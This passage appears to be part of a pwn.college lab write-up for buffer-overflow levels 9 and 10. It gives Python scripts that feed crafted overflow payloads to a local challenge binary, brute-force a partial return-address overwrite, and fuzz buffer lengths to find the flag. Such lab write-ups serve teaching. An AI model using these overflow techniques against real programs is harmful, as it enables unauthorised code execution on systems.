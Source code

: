 ```python

def execute_attack():
    try:
        process = subprocess.Popen([file], stdin=subprocess.PIPE)
        input_data = f"{payload_len}".encode() + b"\n" + payload
        print(input_data)
        process.communicate(input=input_data)
    except Exception as e:
        print(f"error: {e}")

if __name__ == "__main__":
    print(f"Payload generato ({len(payload)} bytes).")
    print(f"Indirizzo di iniezione: {hex(target_address)}")
    execute_attack()
```

`python script9.py 56` run it until you get the fourth byte right (1 in 16 chance)

## Level 9.1

put `target_address = 0x2fff` and `payload = b"A" * 80`

`python script9.py 104` run it until you get the fourth byte right (1 in 16 chance)

- `*challenge+237` holds the $n$ variable in `rdx`

## Level 10.0

**script10.py**

```python
import os
import sys
import struct
import subprocess

challenge_dir = "/challenge"
file = os.path.join(challenge_dir, os.listdir(challenge_dir)[0])

buffer_size = int(sys.argv[1])

def execute_attack(payload):
    try:
        process = subprocess.Popen([file], stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
        input_data = f"{buffer_size}".encode() + b"\n" + payload
        print(input_data)
        stdout, stderr = process.communicate(input=input_data)
        
        if b"pwn.coll" in stdout:
            print(stdout.decode())
    except Exception as e:
        print(f"error: {e}")

if __name__ == "__main__":
    for i in range(buffer_size+1):
        payload = b"A" * i
        print(f"Payload generato ({len(payload)} bytes).")
        execute_attack(payload)
```
